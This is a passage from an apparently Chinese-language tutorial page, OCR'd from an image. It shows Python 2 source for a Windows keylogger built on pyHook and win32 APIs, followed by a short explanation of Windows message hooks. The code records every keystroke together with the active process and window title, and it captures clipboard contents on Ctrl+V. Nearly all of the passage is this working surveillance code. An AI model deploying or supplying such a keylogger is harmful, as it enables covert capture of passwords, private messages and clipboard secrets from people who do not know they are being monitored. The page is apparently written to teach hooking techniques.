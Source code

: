 ```
    # 读取窗口标题
    windows_title = create_string_buffer("\x00"*512)
    length = user32.GetWindowTextA(hwnd,byref(windows_title),512)

    # 打印
    print 
    print "[ PID:%s-%s-%s]" % (process_id,executable.value,windows_title.value)
    print 

    # 关闭handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)

# 定义击键监听事件函数
def KeyStroke(event):

    global current_window

    # 检测目标窗口是否转移(换了其他窗口就监听新的窗口)
    if event.WindowName != current_window:
        current_window = event.WindowName
        # 函数调用
        get_current_process()

    # 检测击键是否常规按键（非组合键等）
    if event.Ascii > 32 and event.Ascii <127:
        print chr(event.Ascii),
    else:
        # 如果发现Ctrl+v（粘贴）事件，就把粘贴板内容记录下来
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            print "[PASTE]-%s" % (pasted_value),
        else:
            print "[%s]" % event.Key,
    # 循环监听下一个击键事件
    return True

# 创建并注册hook管理器
kl = pyHook.HookManager()
kl.KeyDown = KeyStroke

# 注册hook并执行
kl.HookKeyboard()
pythoncom.PumpMessages()

```

【知识点】钩子(Hook)：Windows消息处理机制的一个平台,应用程序可以在上面设置子程以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。
